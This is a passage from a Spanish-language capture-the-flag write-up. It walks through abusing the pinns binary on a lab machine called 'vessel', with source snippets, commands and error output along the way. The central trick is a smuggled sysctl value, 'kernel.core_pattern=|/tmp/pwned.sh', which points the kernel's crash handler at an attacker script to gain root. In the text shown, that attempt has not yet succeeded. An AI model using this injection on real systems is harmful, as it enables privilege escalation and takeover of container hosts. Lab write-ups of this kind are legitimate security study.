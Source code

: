 Valor del parámetro
```c
case 'd':
      pin_path = optarg;
      break;
```

Y ahora tenemos un nuevo error.
```console
ethan@vessel:~$ /usr/bin/pinns --sysctl 'kernel.shm_rmid_forced=1+kernel.core_pattern=|/tmp/pwned.sh' -d /dev/null
[pinns:e]: Filename for pinning namespaces not specified: Invalid argument
```

Buscando el error, tenemos que establecer el parámetro `-f`
```console
/usr/bin/pinns --sysctl 'kernel.shm_rmid_forced=1+kernel.core_pattern=|/tmp/pwned.sh' -d /dev/null -f test
[pinns:e] No namespace specified for pinning
```

Y para terminar esto ocurre ya que el valor de `num_unshares` es 0
```c
 if (num_unshares == 0) {
    nexit("No namespace specified for pinning");
  }
```

Mediante el parámetro `-U` podemos hacer que aumente este valor.
```console
case 'U':
      if (!is_host_ns (optarg))
        unshare_flags |= CLONE_NEWUSER;
      bind_user = true;
      num_unshares++;
      break;
```

Ahora vemos que se nos reporta un error donde dice que la operación no ha sido permitida, pero esto es buena señal ya que en principio debería de hacer cambiado el valor del fichero `/proc/sys/kernel/core_pattern`
```console
ethan@vessel:~$ /usr/bin/pinns --sysctl 'kernel.shm_rmid_forced=1+kernel.core_pattern=|/tmp/pwned.sh' -d /dev/shm -f test -U BLABLA
[pinns:e]: Failed to bind mount ns: /proc/self/ns/user: Operation not permitted
```

Al comprobarlo nos damos cuenta de que no ha cambiado, esto es porque me he equivocado y el parámetro para `sysctl` es `-s` y no `--sysctl`
```console
ethan@vessel:~$ cat /proc/sys/kernel/core_pattern
|/usr/share/apport/apport %p %s %c %d %P %E
```
![Write-up Image](images/Screenshot_26.png)


[pinns:e]: Path for pinning namespaces not specified: Invalid argument
[pinns:e]: Path for pinning namespaces not specified: Invalid argument
[pinns:w]: Failed to create ns file: File exists
